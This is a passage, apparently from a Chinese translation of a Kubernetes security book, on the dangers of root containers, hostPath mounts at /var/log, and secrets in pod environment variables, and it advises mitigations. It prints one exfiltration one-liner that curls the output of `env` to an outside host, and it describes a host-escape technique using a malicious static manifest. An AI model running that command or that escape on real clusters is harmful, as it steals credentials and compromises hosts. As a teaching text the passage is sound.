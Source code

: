 Pod 中的 root 访问是麻烦的入口。通过在 Dockerfile 中降级为非特权用户，可以防止许多攻击。

根用户是全知的，流氓的生存理由。

## [主机挂载的危险性](https://oreil.ly/sGJgo)

正如 2019 年 [Aqua 博客文章](https://oreil.ly/sGJgo) 所指出的：

> Kubernetes 有许多移动部件，有时将它们以某些方式组合可能会产生意想不到的安全缺陷。在本文中，您将看到一个作为 root 运行的容器，通过挂载到节点的 /var/log 目录，可以向任何有权访问其日志的用户暴露其主机文件系统的全部内容。

例如，一个 pod 可能将主机的文件系统目录挂载到容器中，例如 */var/log*。子目录的使用并不能防止容器移动到该目录之外。符号链接可以引用同一文件系统上的任何位置，因此攻击者可以使用符号链接探索他们具有写访问权限的任何文件系统。

容器安全系统将阻止这种攻击，但普通的 Kubernetes 仍然容易受到攻击。

在 [kube-pod-escape](https://oreil.ly/dwQo4) 中的漏洞展示了如何通过可写的 `hostPath` 挂载点（位于 */var/log*）逃逸到主机。具有对主机的写访问权限的攻击者可以通过向 */etc/kubernetes/manifests/* 写入恶意清单来使 `kubelet` 创建新的 pod。

## 其他秘密和从数据存储中导出

Pod 还注入了其他形式的标识，包括 SSH 和 GPG 密钥、Kerberos 和 Vault 令牌、临时凭证以及其他敏感信息。这些由 `kubelet` 暴露到 pod 中作为文件系统挂载或环境变量。

环境变量是继承的，并对由同一用户拥有的其他进程可见。`env` 命令可以轻松地将它们导出，并且攻击者可以轻松地导出它们：`curl -d "$(env)" https://hookb.in/swag`。

虽然已挂载的文件仍然可以相对容易地导出，但通过文件系统权限，这些文件被读取的难度会稍微增加。在一个必须读取其所有本身秘密的单一非特权用户的情况下，这可能不太相关，但在一个 pod 中容器之间共享卷的情况下，这就变得重要了。

准入控制策略（参见 “运行时策略”）可以完全阻止主机挂载，或者强制只读挂载路径。

我们将在 第七章 中更详细地讨论这个主题。

# 结论

卷宗保存数字企业最宝贵的资产：数据。它可以索取丰厚的赎金。通过使用强化的构建和部署模式，阻止哈什杰克船长使用窃取的凭证访问数据。假设一切都会被妥协，使用工作负载标识来限定云集成到容器中，并为专用服务帐户分配有限的云访问权限，这会让攻击者的生活更加困难。

在静态数据（在 `etcd` 和在消耗它的 pod 的上下文中）上加密数据可以保护免受攻击者侵害，当然，面向网络并挂载有价值数据的 pod 是最高影响目标。
